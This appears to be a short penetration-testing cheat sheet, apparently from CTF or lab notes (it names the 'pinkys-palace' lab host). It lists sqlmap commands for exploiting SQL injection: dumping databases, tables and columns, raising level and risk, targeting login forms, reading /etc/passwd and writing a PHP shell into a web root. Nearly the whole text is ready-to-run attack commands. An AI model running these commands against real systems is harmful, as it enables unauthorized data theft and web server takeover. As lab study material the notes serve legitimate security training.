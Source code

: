 	```

## DB Data

1. Dump databases
	```
	sqlmap -r sqli.txt -p <parameter> --dbs --output-dir=$(pwd)/sqlmap
	```
2. Dump tables
	```
	sqlmap -r sqli.txt -p <parameter> -D <dbs> --tables --output-dir=$(pwd)/sqlmap
	```
3. Dump columns
	```
	sqlmap -r sqli.txt -p <parameter> -D <dbs> -T <table> --columns --dump --output-dir=$(pwd)/sqlmap
	```
4. Dump specific columns
	```
	sqlmap -r sqli.txt -p <parameter> -D <dbs> -T <table> -C <column1,column2> --dump --output-dir=$(pwd)/sqlmap
	```
5. Try levels
	```
	--level=5 --risk=3
	```

6. Proxy
	```
	 --proxy=http://192.168.110.27:31337/
	```

7. Specify URL instead 
	```
	# Remember to specify form if its a login page
	# Or you can just point it directly to the login.php, --form will not be needed
	
	# w/ --form
	sqlmap --url http://pinkys-palace:8080/littlesecrets-main/ --dbs --output-dir=$(pwd)/sqlmap --form
	
	# w/o --form
	sqlmap --url http://pinkys-palace:8080/littlesecrets-main/login.php --dbs --output-dir=$(pwd)/sqlmap
	```

8. [Read/Write file](https://www.hackingarticles.in/file-system-access-on-webserver-using-sqlmap/)
	```
	--file-read=/etc/passwd
	--file-write=/root/Desktop/shell.php --file-dest=/xampp/htdocs/shell.php
	```
